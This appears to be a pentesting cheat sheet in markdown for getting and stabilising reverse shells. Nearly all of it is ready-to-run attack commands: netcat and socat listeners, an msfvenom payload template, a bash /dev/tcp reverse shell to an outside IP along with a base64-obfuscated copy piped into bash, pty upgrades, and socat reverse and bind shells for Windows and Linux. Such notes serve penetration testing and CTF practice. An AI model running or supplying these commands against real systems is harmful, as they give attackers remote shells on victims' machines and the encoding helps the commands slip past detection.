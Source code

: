 ## Invoke listener for a reverse shell
```bash
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```
## Generate shell using msfvenom
```bash
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```
## Base64 technique
```bash
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```
## Upgrade / Stabilize Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")
```
```bash
export TERM=xterm
```
## Using socat
```bash
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Upgrade Normal Shell to Meterpreter (Metasploit)
[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources
- [https://www.revshells.com/](https://www.revshells.com/)